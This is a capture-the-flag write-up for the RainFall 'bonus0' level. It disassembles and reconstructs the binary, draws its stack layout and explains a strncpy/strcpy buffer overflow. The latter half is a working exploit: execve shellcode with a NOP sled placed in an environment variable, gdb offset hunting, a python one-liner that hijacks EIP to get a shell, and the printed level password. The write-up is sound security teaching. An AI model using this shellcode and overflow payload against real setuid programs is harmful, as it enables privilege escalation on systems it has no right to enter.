


### notes :
```c
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```
---
### 0x080485a4 : main() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c

{
    buffer1 = esp+22

    0x40 ... 64
    0x16 ... 22
}
```
* __`<0> ➜ <+8> : prepare stack frame for main function with size 64`__
```c
0x080485a4 <+0>:	push   ebp
0x080485a5 <+1>:	mov    ebp,esp
0x080485a7 <+3>:	and    esp,0xfffffff0
0x080485aa <+6>:	sub    esp,64
```
- _**`<+9> ➜ <+16> : call pp function with the buffer1 as param`**_
```c
0x080485ad <+9>:	lea    eax,[buffer1] 
0x080485b1 <+13>:	mov    DWORD PTR [esp],eax // paarm1 = buffer1
0x080485b4 <+16>:	call   0x804851e <pp>
pp(buffer1);
```
- _**`<+21> ➜ <+28> : print buffer content with puts`**_
```c
0x080485b9 <+21>:	lea    eax,[buffer1]
0x080485bd <+25>:	mov    DWORD PTR [esp],eax
0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
puts(buffer1)
```
- _**`<+33> ➜ <+39> : return (0)`**_
```c
0x080485c5 <+33>:	mov     eax,0
0x080485ca <+38>:	leave  
0x080485cb <+39>:	ret    
```
---
### 0x0804851e : pp(*buff) : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    int buff = ebp+8

    buffer_1[20] = ebp-48
    buffer_2[20]= ebp-28
    buffer_3 = ebp-60    // 0x50 ... 80
    // 0x30 ... 48
    // 0x1c ... 28
    // 0x3c ... 60

}
```
* __`<0> ➜ <+8> : prepare stack frame for pp function with size 160`__
```c
0x0804851e <+0>:	push   ebp
0x0804851f <+1>:	mov    ebp,esp
0x08048521 <+3>:	push   edi
0x08048522 <+4>:	push   ebx
0x08048523 <+5>:	sub    esp,80
```
- _**`<+8> ➜ <+22> : call p() with buffer_1[20] and " - "`**_
```c
0x08048526 <+8>:	mov    DWORD PTR [esp+4],0x80486a0 // " - "
0x0804852e <+16>:	lea    eax,[buffer_1]
0x08048531 <+19>:	mov    DWORD PTR [esp],eax
0x08048534 <+22>:	call   0x80484b4 <p>
p(buffer_1, " - ");
```
- _**`<+27> ➜ <+41> : call p() with buffer_2[20] and " - "`**_
```c
0x08048539 <+27>:	mov    DWORD PTR [esp+4],0x80486a0 // " - "
0x08048541 <+35>:	lea    eax,[buffer_2]
0x08048544 <+38>:	mov    DWORD PTR [esp],eax
0x08048547 <+41>:	call   0x80484b4 <p>
p(buffer_2, " - ");
```
- _**`<+46> ➜ <+59> : copy content of what buffer_1 points to in main buffer`**_
```c
0x0804854c <+46>:	lea    eax,[buffer_1]
0x0804854f <+49>:	mov    DWORD PTR [esp+4],eax
0x08048553 <+53>:	mov    eax,DWORD PTR [buff]
0x08048556 <+56>:	mov    DWORD PTR [esp],eax
0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
strcpy(buff, buffer_1);
```
- _**`<+64>  : ebx now has 32 as value or space | ebx = 32`**_
```c
0x0804855e <+64>:	mov    ebx,0x80486a4 // " "
```
- _**`<+69> ➜ <+97> : repnz scas equivalent to strlen in libc, applied to main buffer the value is saved in eax then sub 1 from it maybe to exclude the \0 `**_
```c
0x08048563 <+69>:	mov    eax,DWORD PTR [buff] // eax = *buff
0x08048566 <+72>:	mov    DWORD PTR [ebp-60],0xffffffff (-1) // ebp-60 = -1
0x0804856d <+79>:	mov    edx,eax // edx =  *buff
0x0804856f <+81>:	mov    eax,0 // eax = 0
0x08048574 <+86>:	mov    ecx,DWORD PTR [ebp-60] // ecx = -1
0x08048577 <+89>:	mov    edi,edx // edi = *buff
0x08048579 <+91>:	repnz scas al,BYTE PTR es:[edi] // strlen(*buff)
0x0804857b <+93>:	mov    eax,ecx // eax =  strlen(*buff)
0x0804857d <+95>:	not    eax
0x0804857f <+97>:	sub    eax,1 // eax =  strlen(*buff) - 1
len = eax = strlen(buff) - 1;
```
- _**`<+100> ➜ <+106> : put a space in the end of main buffer`**_
```c
0x08048582 <+100>:	add    eax,DWORD PTR [buff] 
0x08048585 <+103>:	movzx  edx,WORD PTR [ebx] 
0x08048588 <+106>:	mov    WORD PTR [eax],dx // buff[eax~len] =  " "
buff[len] = " "
```
- _**`<+109> ➜ <+>122 : concat the content of buffer_2[20] to main buffer`**_
```c
0x0804858b <+109>:	lea    eax,[buffer_2]
0x0804858e <+112>:	mov    DWORD PTR [esp+4],eax
0x08048592 <+116>:	mov    eax,DWORD PTR [buff]
0x08048595 <+119>:	mov    DWORD PTR [esp],eax
0x08048598 <+122>:	call   0x8048390 <strcat@plt>
strcat(buff, buffer_2);
```
- _**`<+127> ➜ <+133> : retreive the value of ebx and edi and ebp and exit function`**_
```c
0x0804859d <+127>:	add    esp,80
0x080485a0 <+130>:	pop    ebx
0x080485a1 <+131>:	pop    edi
0x080485a2 <+132>:	pop    ebp
0x080485a3 <+133>:	ret   
```
---
### 0x080484b4 : p(*s1, *s2) : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c

{
    *s1 = ebp+8
    *s2 = ebp+12

    buff1 = ebp-4104

    // 0x1018 ... 4120
    // 0x1008 ... 4104
    // 0x1000 ... 4096
    // 0x14 ... 20
    // 0xa ... 10
}
```
* __`<0> ➜ <+3> : prepare stack frame for p function with size 4120`__
```c
0x080484b4 <+0>:	push   ebp
0x080484b5 <+1>:	mov    ebp,esp
0x080484b7 <+3>:	sub    esp,4120
```
* __`<9> ➜ <+15> : print the string passed in the second param`__
```c
0x080484bd <+9>:	mov    eax,DWORD PTR [s2]
0x080484c0 <+12>:	mov    DWORD PTR [esp],eax
0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
puts(s2)
```
* __`<20> ➜ <+45> : read up to 4095 bytes from user input and save it in buff1`__
```c
0x080484c8 <+20>:	mov    DWORD PTR [esp+8],4096
0x080484d0 <+28>:	lea    eax,[buff1]
0x080484d6 <+34>:	mov    DWORD PTR [esp+4],eax
0x080484da <+38>:	mov    DWORD PTR [esp],0
0x080484e1 <+45>:	call   0x8048380 <read@plt>
read(0, buff1, 4096)
```
* __`<50> ➜ <+72> : put \0 in the pointer where it will find first \n from the user input`__
```c
0x080484e6 <+50>:	mov    DWORD PTR [esp+4],10
0x080484ee <+58>:	lea    eax,[buff1]
0x080484f4 <+64>:	mov    DWORD PTR [esp],eax
0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
0x080484fc <+72>:	mov    BYTE PTR [eax],0
strchr(buff1, "\n") = \0;
```
* __`<75> ➜ <+99> : copy up to 20 bytes from buffer to the buffer send in first param`__
```c
0x080484ff <+75>:	lea    eax,[buff1]
0x08048505 <+81>:	mov    DWORD PTR [esp+8],20
0x0804850d <+89>:	mov    DWORD PTR [esp+4],eax
0x08048511 <+93>:	mov    eax,DWORD PTR [s1]
0x08048514 <+96>:	mov    DWORD PTR [esp],eax
0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
strncpy(s1, buff1, 20)
```
* __`<104> ➜ <+105> : exit function `__
```c
0x0804851c <+104>:	leave  
0x0804851d <+105>:	ret   
```
---
### Code Prediction 
```c

void    p(char *s, char *str)
{
    char    buffer[4096];

    puts(str);
    read(0, buffer, 4096);

    *strchr(buffer, '\n') = 0;
    strncpy(s, buffer, 20);

    return;
}

void    pp(char *buffer)
{
    char    b1[20];
    char    b2[20];
    
    p(b1, " - ");
    p(b2, " - ");

    strcpy(buffer,b1);

    eax = strlen(buffer);
    buffer[eax] = " ";
    
    strcat(buffer, b2);

    return;
}

int main(void)
{
    char    buffer[42]; //0x40 - 0x16
    
    pp(buffer);
    puts(buffer);
    return (0);
}
```
---
### Stack Illustration
```c

                +-------------------+ +12
                +                   +
                +-------------------+ +8
                [ret addr (OLD_EIP) ]
                +-------------------+ +4
                [      OLD_EBP      ]
0xbffff728      +-------------------+ <---EBP(main)--------------+
                [and esp,0xfffffff0 ]                            |
0xbffff720      +-------------------+ +64 <-----+                |
                +                   +           |                |
                +       buffer      +           | 64 bytes       |
                +                   +           |                |
                +-------------------+ +22 <-----+                |
                +                   +                            |
                +       ....        +                            | MAIN FRAME (64)
                +       ....        +                            |
                +                   +                            |
                +-------------------+ +4                         |
                +       buffer      +                            |
0xbffff6e0      +-------------------+ <---ESP(main)              |
                +     MAIN_EIP      +                            |
                +-------------------+                            | 
                +     MAIN_EBP      +                            |
0xbffff6d8      +-------------------+ <-- EBP(pp)----------------+
                +       edi         +                            |
                +-------------------+                            |
                +       ebx         +                            |
0xbffff684      +-------------------+ -8                         |
                +       b2[20]      +                            |
                +-------------------+ -28                        |
                +       b1[20]      +                            | PP FRAME (80)
                +-------------------+ -48                        |
                +                   +                            |
                +-------------------+ ESP(pp) + 8                |
                +        b2         +                            |
                +-------------------+ ESP(pp) + 4                |
                +       buffer      +                            |
0xbffff680      +-------------------+ -80 ESP(pp)----------------+
```
---
### Process of the Exploit:
#### explain the program:
1. there is 3 functions : ***main***, ***pp***, ***p***
1. the **main** call **pp** with the **buffer[42]** as argument
1. the **pp** call **p** two times : once with **b1[20]** and next with **b2[20]**
1. the **pp** copy **b1** into **main buffer** with **strcpy**
    - strcpy : is not protected against bufferoverflow so it will copy no matter what **b1 points to** in **main buffer** until it reach **\0**
1. the **pp** put a **space** at the **end** of **main buffer** ___`buffer[len(buffer)] = " "`___
1. the **pp** and the end concat **b2** to the **main buffer**
1. the **p** reads up **4095 bytes** from stdin **+ \0** and store them in inner buffer - 1. then puts a **\0** in the first encounter of **\n**
1. the **p** also copy **n bytes** from **inner buffer** to the **param1 buffer** with - **strncpy**.
    - **strncpy** have a probleme
        >➜  ~  man strncpy
        >The strncpy() function is similar, except that at most n bytes of src are >copied.  Warning: If there is no null byte among the first n bytes of src, the >string placed in dest will not be null-terminated.
        
        >***which means if the user input is over or equal to 20 bytes, the destination buffer will not be null terminated***
#### case 1:
- **in case we enter a buffer less than 20 characters**
    ```shell
    bonus0@RainFall:~$ ./bonus0 
    - 
    01234
    - 
    abcde
    01234 abcde
    bonus0@RainFall:~$
    ```
    - state of buffers:

#### case 2:
- **in case we enter a buffer more than 20 characters**
    ```shell
    bonus0@RainFall:~$ ./bonus0 
    - 
    123456789A123456789A
    - 
    abcdefghijklmnopqrstuv
    123456789A123456789Aabcdefghijklmnopqrst��� abcdefghijklmnopqrst���
    Segmentation fault (core dumped)
    bonus0@RainFall:~$
    ```


- since the stack is executable , lets try to inject the shellcode
- our shellcode is 21 long so cant fit in our arguments
- we use the Environement 
    > CODE = NOPs + SHELLCODE
    ```shell
    export CODE=`/bin/echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`
    ```
- one more thing, lets try find the offset where the EIP change
    ```shell
    (gdb) run 
    Starting program: /home/user/bonus0/bonus0 
    - 
    AAAAAAAAAAAAAAAAAAAAAAAAAAA
    - 
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

    Program received signal SIGSEGV, Segmentation fault.
    Error while running hook_stop:
    No function contains program counter for selected frame.
    0x41336141 in ?? ()  <------------- offset : 9
    (gdb) 
    ```
- now lets try to find the address of NOPs inside the enviroment variable we exported
```shell
(gdb) x/40s *((char **)environ)
...
0xbfffff19:	 "CODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
...

(gdb) x 0xbfffff19+0xc
0xbfffff25:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
(gdb)
```
- now since we have all details we need, lets prepare our payload :
- **PAYLOAD :**
    - **Arg1: A * 20**
    - **Arg2: B * 9 + ADDRESS_TO_NOPs + C * 7** = 20

---
### Solution :

```shell
bonus0@RainFall:~$ (python -c 'print "A" * 20' ; python -c 'print "B"*9 + "\xbf\xff\xff\x25"[::-1] + "C" * 7' ; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBB%���CCCCCCC��� BBBBBBBBB%���CCCCCCC���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

|`flag : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
---


